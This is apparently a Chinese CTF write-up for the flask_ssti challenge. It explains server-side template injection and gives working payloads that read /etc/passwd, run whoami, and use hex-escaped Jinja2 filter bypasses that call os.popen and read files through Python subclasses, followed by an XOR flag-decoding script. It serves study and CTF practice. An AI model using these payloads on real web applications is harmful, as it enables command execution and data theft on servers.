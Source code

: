 # picdown

昨天的picdown，这个反弹shell也一言难尽，，，很不稳定

![image-20240721182529291](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240721182529291.png)

# [pasecactf_2019]flask_ssti

buuoj

![image-20240721224552537](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240721224552537.png)

昨日学习了flask架构，今日趁热打铁再做两个题，从题目就可以看出是关于flask架构的ssti漏洞利用

### 什么是ssti？

SSTI（Server-Side Template Injection，服务器端模板注入）是一种网络攻击技术，攻击者通过向模板引擎中注入恶意代码，利用服务器端的模板引擎执行这些恶意代码，从而达到控制服务器、窃取数据或执行其他恶意操作的目的。

### 如何通过SSTI测试：

SSTI的测试主要包括以下几个步骤：

1. **识别注入点**：
   - 寻找用户输入直接或间接传递给模板引擎的地方。这些输入点通常出现在表单、URL参数、HTTP头信息等地方。
2. **探测模板引擎类型**：
   - 不同的模板引擎（如Jinja2、Thymeleaf、Velocity等）具有不同的语法。通过向注入点注入一些特定于模板引擎的语法，观察服务器响应来识别所使用的模板引擎类型。
3. **构造Payload**：
   - 根据识别出的模板引擎类型，构造有效的Payload以执行恶意代码。例如，在Jinja2中，可以注入`{{ 7*7 }}`来测试是否可以执行代码，如果返回结果为49，则说明存在SSTI漏洞。
4. **验证和利用**：
   - 通过构造更复杂的Payload，验证漏洞的可利用性，并尝试执行任意代码、读取文件等操作。

### 常见的模板引擎和Payload示例：

- **Jinja2 (Python)**

  ```
  python复制代码{{ 7*7 }}
  {{ request.application.__globals__.__builtins__.open('/etc/passwd').read() }}
  ```

- **Thymeleaf (Java)**

  ```
  java复制代码${7*7}
  ${T(java.lang.Runtime).getRuntime().exec('whoami')}
  ```

- **Velocity (Java)**

  ```
  java复制代码#set($x=7*7)
  $x
  ```

- **Smarty (PHP)**

  ```
  php复制代码{$smarty.version}
  {php}echo `whoami`;{/php}
  ```

通过识别注入点、探测模板引擎类型和构造有效Payload，可以测试并验证SSTI漏洞的存在和可利用性。

### 使用的服务引擎

不同的模板引擎由不同的编程语言和框架使用。以下是一些常见的模板引擎及其对应的服务引擎/框架：

- **Jinja2**：常用于Python的Flask、Django等Web框架。
- **Thymeleaf**：常用于Java的Spring框架。
- **Velocity**：常用于Java的Web应用。
- **Smarty**：常用于PHP的Web应用。
- **Twig**：常用于PHP的Symfony框架。

因为已经知道是flask架构，直接测试

经测试{{7}}结果为49，可以利用该漏洞

![image-20240721183626745](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240721183626745.png)

不过再次利用可以发现，过滤了{{ request.application.__globals__.__builtins__.open('/etc/passwd').read() }}中的`.`，{{ source('/etc/passwd') }}中`'`也过滤了。'接下来如何利用呢？

第一种方法，那就是使用绕过，使用[]绕过`.`进行函数的选定,`"` 绕过`'`,而其余的可以用\8or16进制绕过。所以我们可以根据子类构造出绕过。

首先构造{{**class**.**bases**[0].__subclasses}}，这是访问其中的python基类中的子类

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"]()}}
```



```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()}}
```

对于`class.bases[0].__subclasses__` 是一种访问类的基类并获取其所有子类的方法。具体来说：

1. **class**：指的是一个类对象。
2. **bases**：是类对象的一个属性，包含了该类的所有基类（即父类）。这是一个元组，通常第一个基类是 `object`。
3. **[0]**：表示访问基类列表中的第一个基类（通常是 `object`）。
4. **subclasses**：这是一个内置方法，用于获取一个类的所有直接子类。它返回一个包含所有子类的列表

这里我们关心几个类，第一个是有关os的，因为os.popen可以执行系统命令，有利用空间

```python
def find_strings_with_os(info_string):
    # 使用split方法将字符串分割成单独的类项
    class_items = info_string.split(", ")
    n=0
    # 遍历每个类项，找出包含"os"的项目并打印
    for item in class_items:
        n+=1
        if 'os' in item:
            print(item,n)

info_string=open("1.txt").read()
# 调用函数
find_strings_with_os(info_string)
```

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[]}}
```

因此我们通过

1. `()["\x5F\x5Fclass\x5F\x5F"]`：访问当前对象的 `__class__` 属性。
2. `["\x5F\x5Fbases\x5F\x5F"][0]`：访问 `__bases__` 属性的第一个基类（通常是 `object`）。
3. `"\x5F\x5Fsubclasses\x5F\x5F"`：调用 `__subclasses__()` 方法，获取所有子类的列表。
4. `[91]`：访问子类列表中的第 91 个子类（ `__frozen_importlib_external.FileLoader__`）。

从网上了解到这个类__frozen_importlib_external.FileLoader__可以 `get_data()` 方法读取指定上次学习的/proc/self/fd文件的中的flask储存的内容

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/cwd/templates/index\x2Ehtml")}}
```

```
{{config["\x5f\x5fclass\x5f\x5f"]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("ls -a /proc/self/fd/3")["read"]()}}
```



通过枚举到3出现结果

第二种方法，flask默认对象config，直接执行返回子类看到加密后的flag，这应该是作者降低的难度

![image-20240721184810666](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240721184810666.png)

这里面信息就有自定义的flag，但这还没完，附件是有加密函数的

```python
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W34', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT5')
```

直接对着加密函数解密就行了

```python
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

flag = '-M7\x10wHalc\x03"a)\x0e\x1b\x02b\x03(D\x10N\r\x17{>Ri\x02TE\x0es\x04-xEi\x14]\x17G'
print(encode(flag,'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'))
```

密钥key有问题，要删除一位

flag{9cb1302b-d984-48d3-b529-83ff66fa12b8}

这道题其实已经简化了许多，原本的题看了解析后应该更困难

# Web_python_flask_sql_injection



# Web_python_template_injection